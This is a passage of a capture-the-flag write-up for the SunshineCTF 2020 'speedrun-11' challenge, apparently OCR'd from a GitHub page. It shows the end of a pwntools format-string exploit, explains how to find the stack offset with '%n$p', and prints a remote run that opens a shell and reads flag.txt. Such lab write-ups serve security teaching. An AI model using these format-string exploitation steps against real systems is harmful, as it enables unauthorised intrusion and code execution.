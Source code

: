 ```python

null = payload.find(b'\x00')
p.recvuntil(payload[null-3:null])

p.interactive()
```

Format-string exploits require a stack parameter offset.  In ~50% of cases it is 6 (x86_64 and x86), however, finding it is not difficult.  Just enter `%n$p` where `n > 0` as the argument to the `printf` call.  When the output matches your input then you know you've found it, e.g.:

```
# ./chall_11
So indeed

%6$p
0x70243625
```

That hex is (in little endian order) is `%6$p`.

pwntools has some pretty nice format-string support.  If you're interested in all the ways to exploit format strings read [dead-canary](https://github.com/datajerk/ctf-write-ups/tree/master/redpwnctf2020/dead-canary).

The two lines before `p.interactive()` are just to make the output pretty, it basically captures our format-string exploit output and trashes it.

See what I mean?:

```bash
# ./exploit_11.py REMOTE=1
[*] '/pwd/datajerk/sunshinectf2020/speedrun-11/chall_11'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to chal.2020.sunshinectf.org on port 30011: Done
[*] Switching to interactive mode

$ id
uid=1000(chall_11) gid=1000(chall_11) groups=1000(chall_11)
$ ls -l
total 12
-rwxr-xr-x 1 root root     5620 Nov  7 07:49 chall_11
-rw-r----- 1 root chall_11   32 Nov  7 08:52 flag.txt
$ cat flag.txt
sun{afterlife-4b74753c2b12949f}
```

Pretty.


## speedrun-12

